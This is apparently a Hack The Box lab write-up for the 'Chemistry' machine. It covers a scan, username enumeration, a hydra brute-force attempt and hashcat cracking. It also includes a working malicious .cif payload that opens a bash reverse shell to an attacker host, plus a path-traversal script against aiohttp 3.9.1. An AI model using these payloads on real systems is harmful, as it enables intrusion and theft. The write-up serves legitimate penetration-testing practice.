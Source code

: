 
HTB : [[Machines]]

**Date:** 08/01/25  
**Target IP:** 10.10.11.38

---

### **Initial Scanning**

**Nmap Results:**

- **22/tcp**: OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
- **5000/tcp**: Werkzeug httpd 3.0.3 (Python 3.9.5)

**Nikto Scan:**

- Detected outdated Python version: **3.9.5** (latest is at least 3.9.6).

---

### **Exploration and Enumeration**

**Port 5000 (HTTP):**

- Navigated to the website hosted on port 5000.
- Found **Login** and **Register** pages.
- Discovered a vulnerability on the **Register page**:
    - "User exists" prompt enables **username enumeration**.
    - Confirmed the existence of the `admin` user.

---

### **Exploitation**

1. **Brute Forcing Login:**
    
    - Attempted brute forcing with `hydra`:
        
        ```
        hydra -l admin -P /usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt 10.10.11.38 -s 5000 http-post-form "/login:username=^USER^&password=^PASS^:Invalid credentials" -I -vV
        ```
        
    - Brute forcing was unsuccessful.
2. **File Upload Vulnerability:**
    
    - Registered a new user and accessed a file upload functionality for `.cif` files.
    - Exploited a known vulnerability in `.cif` file handling in Python:
        - Reference: [GHSA-vgv8-5cpj-qj2f](https://github.com/advisories/GHSA-vgv8-5cpj-qj2f)
    - Uploaded a malicious `.cif` file to execute a **bash reverse shell**.
    
    **Malicious .cif File Content:**
    
    ```plaintext
	data_5yOhtAoR
	_audit_creation_date            2018-06-08
	_audit_creation_method          
	
	loop_
	_parent_propagation_vector.id
	_parent_propagation_vector.kxkykz
	k1 [0 0 0]
	
	_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/<attacker ip>/1234 0>&1\'");0,0,0'
	
	
	_space_group_magn.number_BNS  62.448
	_space_group_magn.name_BNS
    ```
    
    - Launched a **Netcat listener** (`nc -nvlp 1234`) to capture the reverse shell.

---

### **Post-Exploitation**

1. **Access Gained:**
    
    - Obtained access to the `app` user via the reverse shell.
2. **App Enumeration:**
    
    - Found sensitive information in `app.py`:
        - Flask secret key: `MyS3cretCh3mistry4PP`
        - SQLite DB URL: `sqlite:///database.db`
    - Transferred the database file to the local machine using a Python HTTP server.
3. **Database Analysis:**
    
    - Analyzed the SQLite database using an online viewer ([SQLite Viewer](https://inloop.github.io/sqlite-viewer/)).
    - Found a table with MD5-hashed passwords:
        - `63ed86ee9f624c7b14f1d4f43dc251a5` (hash for the `rosa` user).
4. **Password Cracking:**
    
    - Cracked the hash using `hashcat`:
        
        ```
        hashcat -m 0 -a 0 rosa_hash /usr/share/wordlists/rockyou.txt
        ```
        
        - **Cracked Password:** `unicorniosrosados`
5. **SSH Access to `rosa`:**
    
    - Logged in via SSH:
        
        ```
        ssh rosa@10.10.11.38
        ```
        
    - Retrieved the user flag:
        
        ```
        rosa@chemistry:~$ cat user.txt
        e5778c455c79cd3b24a14dc42cd897b7
        ```
        

---

### **Privilege Escalation**

1. **Port Forwarding:**
    
    - Discovered a service running on **localhost:8080**.
    - Forwarded the port:
        
        ```
        ssh -L 4321:localhost:8080 rosa@10.10.11.38
        ```
        
    - Accessed an analytics page with a server banner indicating:
        - `aiohttp/3.9.1`
2. **File Disclosure Exploit:**
    
    - Identified a vulnerability in `aiohttp/3.9.1`.
        - Reference: [CVE-2024-23334-PoC](https://github.com/z3rObyte/CVE-2024-23334-PoC)
    - Modified the exploit to fetch `/root/root.txt`.
    
    **Exploit Script:**
    
    ```bash
    url="http://localhost:8080"
    payload="/assets/"
    file="root/root.txt"
    
    for ((i=0; i<15; i++)); do
        payload+="../"
        status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
        if [[ $status_code -eq 200 ]]; then
            curl -s --path-as-is "$url$payload$file"
            break
        fi
    done
    ```
    
3. **Root Flag Obtained:**
    
    - Successfully retrieved the root flag:
        
        ```
        25eeadc405adda911ccb96789fc5b82f
        ```
        

---

### **Summary**

- **User Flag:** `e5778c455c79cd3b24a14dc42cd897b7`
- **Root Flag:** `25eeadc405adda911ccb96789fc5b82f`
- **Key Vulnerabilities Identified:**
    - Username enumeration on the Register page.
    - File upload vulnerability allowing remote code execution.
    - Outdated `aiohttp` version with file disclosure vulnerability.
